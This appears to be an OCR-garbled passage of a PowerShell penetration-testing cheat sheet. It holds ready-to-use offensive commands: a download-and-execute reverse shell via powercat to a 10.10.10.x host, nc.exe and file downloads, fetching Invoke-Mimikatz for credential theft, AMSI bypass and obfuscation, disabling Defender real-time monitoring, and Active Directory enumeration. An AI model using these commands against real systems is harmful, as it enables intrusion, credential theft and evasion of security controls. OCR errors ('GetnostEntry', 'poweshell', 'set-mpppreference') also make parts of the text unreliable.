 | get-wmiobject -list -'network' | WMI available on the network
| \(Net.DNS\]: :GetnostEntry\(" ip "I | Process DNS Lookup |
| powershell.exe wget "http://10.10.10.10/nc.exe" -outfile "c:\temp\nc.exe" | Download and save the file
| poweshell.exe -c "IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.10.10:8000/powercat.ps1'); powercat -c 10.10.10.100 -p 4444 -e cmd | reverse loose |
| https://gist.githubusercontent.com/zhilich/b8480f1d22f9b15d4fdde07ddc6fa4ed/raw/8078a51bbfa18df36d8e890fefe96a06891dd47d/SimpleHttpServer.ps1 | Web server with port 8050
| https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 | Use mimikatz |
| call ps1 files | Import-Module .\Invoke-Mimikatz.ps1 |
| Download and save the file iwr -uri http://10.10.10.10/file -o file.exe |


### Bypass AMSI

```text
Import-Module .\Invoke-Obfuscation\Invoke-Obfuscation.psm1
Out-ObfuscatedTokenCommand -Path .\powerview.ps1 | Out-File out
```

Or

```text
https://raw.githubusercontent.com/kmkz/Pentesting/master/AMSI-Bypass.ps1
. .\AMSI-Bypass.ps1
Invoke-AmsiBypass
```

### Disable realtimemonitoring

```text
powershell -command set-mpppreference -Disable realtimemonitoring $true
```

### List of all users

```text
$users = New-Object DirectoryServices.DirectorySearcher
$users.Filter = "(&(objectclass=user))"
$users.SearchRoot = ''
$users.FindAll()
```

### List of all domains

```text
$computers = New-Object DirectoryServices.DirectorySearcher
$computers.Filter = "(&(objectclass=computer))"
$computers.SearchRoot = ''
$computers.FindAll()
```


### Get AD credentials using donotrequirepreauth
